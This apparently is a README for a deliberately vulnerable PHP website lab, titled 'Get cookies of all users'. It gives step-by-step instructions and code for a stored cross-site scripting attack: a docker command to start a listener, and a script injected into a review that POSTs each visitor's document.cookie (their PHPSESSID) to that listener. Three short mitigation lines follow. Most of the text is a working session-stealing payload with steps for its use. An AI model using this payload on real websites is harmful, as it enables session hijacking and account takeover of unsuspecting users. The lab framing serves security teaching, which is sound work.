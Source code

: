 # Get cookies of all users

This attack will exploit the reviews to grab the cookie of any user that visits the homepage.

## Steps

- Listen on your machine for connections

    `docker run -it --rm --name node-logger -p 8000:8000 -v ${PWD}:/usr/src/app -w /usr/src/app node:alpine node logger.js`

- Register an user on the website and login
- Create a review and inject malicious javascript code 

    ```javascript
    <script>
        fetch("http://127.0.0.1:8000", {
            method:'POST', 
            mode: 'no-cors', 
            body: document.cookie
        })
    </script>
    ```

- Every time a logged in user visits the homepage you receive their PHPSESSID cookie

## Mitigation

- Sanitize sent and received data [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function
- Use appropriate response headers
- Use Content Security Policy
